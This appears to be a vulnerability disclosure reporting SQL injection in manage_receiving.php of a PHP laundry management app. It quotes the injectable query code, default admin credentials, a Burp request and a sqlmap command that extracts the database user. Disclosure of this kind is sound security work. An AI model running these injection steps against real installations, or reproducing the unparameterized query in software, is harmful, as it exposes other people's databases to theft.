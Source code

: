 ## Online Laundry Management System

## SQL Injection on `/manage_receiving.php`

### Vendor Homepage:

```
https://www.campcodes.com/downloads/online-laundry-management-system-source-code/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/login.php
admin
admin123
```

### Affected Page:

```
/manage_receiving.php
```

The potential injection point is located in `manage_receiving.php`. This file directly utilizes the `$id`  variables to construct a database query without employing parameterized queries or proper data sanitization measures.

```php
if(isset($_GET['id'])){
	$qry = $conn->query("SELECT * FROM receiving_list where id=".$_GET['id'])->fetch_array();
	foreach($qry as $k => $val){
		$$k = $val;
	}
	$inv = $conn->query("SELECT * FROM inventory where type=1 and form_id=".$_GET['id']);

}
```

### Proof of Concept:

**Burp Request:**

```
GET /manage_receiving.php?id=1 HTTP/1.1
Host: 192.168.150.131
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=vti3ovjgtr57ia1sal7i2smkv7
Connection: close


```

```
python3 sqlmap.py -r 1.txt --current-user --batch --dbms mysql
```

**Screenshot**

![image-20240510215703581](./screenshot/image-20240510215703581.png)
